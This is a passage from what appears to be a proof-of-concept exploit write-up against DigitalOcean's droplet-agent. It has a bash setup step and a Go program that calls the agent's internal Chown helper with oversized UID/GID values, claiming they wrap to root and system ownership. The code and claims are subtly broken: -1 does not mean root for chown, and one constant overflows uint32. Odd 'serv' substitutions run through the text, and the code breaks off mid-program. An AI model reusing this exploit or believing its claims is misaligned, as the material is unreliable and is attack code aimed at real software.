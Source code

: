 #### 2. Create serv Environment
```bash
# Create serv files
mkdir -p /tmp/droplet-serv
echo "sensitive data" > /tmp/droplet-serv/serv-file.txt
echo "config data" > /tmp/droplet-serv/config.yaml

# Set original ownership
chown 1000:1000 /tmp/droplet-serv/*
```

#### 3. Execute Exploit Using Droplet Agent API
```go
// exploit_droplet_agent.go
package main

import (
    "fmt"
    "os"
    "syscall"
    "github.com/digitalocean/droplet-agent/internal/sysutil"
)

func main() {
    // Create OS operations helper (same as droplet-agent)
    opsHelper := sysutil.NewOSOperationsHelper()
    
    // serv files
    servFiles := []string{
        "/tmp/droplet-serv/serv-file.txt",
        "/tmp/droplet-serv/config.yaml",
    }
    
    // Exploit: Large UID/GID values that wrap to privileged IDs
    exploitCases := []struct {
        name string
        uid  uint32
        gid  uint32
    }{
        {"Root ownership", 4294967295, 4294967295}, // Wraps to -1 (root)
        {"System user", 4294967294, 4294967294},    // Wraps to -2 (system)
        {"Current user", 4294967296 + 1000, 4294967296 + 1000}, // Wraps to 1000
    }
    
    for _, exploit := range exploitCases {
        fmt.Printf("serving: %s (UID: %d, GID: %d)\n", exploit.name, exploit.uid, exploit.gid)
        
        for _, file := range servFiles {
            err := opsHelper.Chown(file, exploit.uid, exploit.gid)
            if err != nil {
                fmt.Printf("  Error on %s: %v\n", file, err)
                continue
            }
            
            // Verify ownership change
            info, err := os.Stat(file)
            if err != nil {
                fmt.Printf("  Stat error: %v\n", err)
                continue
            }
            
            stat := info.Sys().(*syscall.Stat_t)
            fmt.Printf("  %s -> UID: %d, GID: %d\n", file, stat.Uid, stat.Gid)
        }
```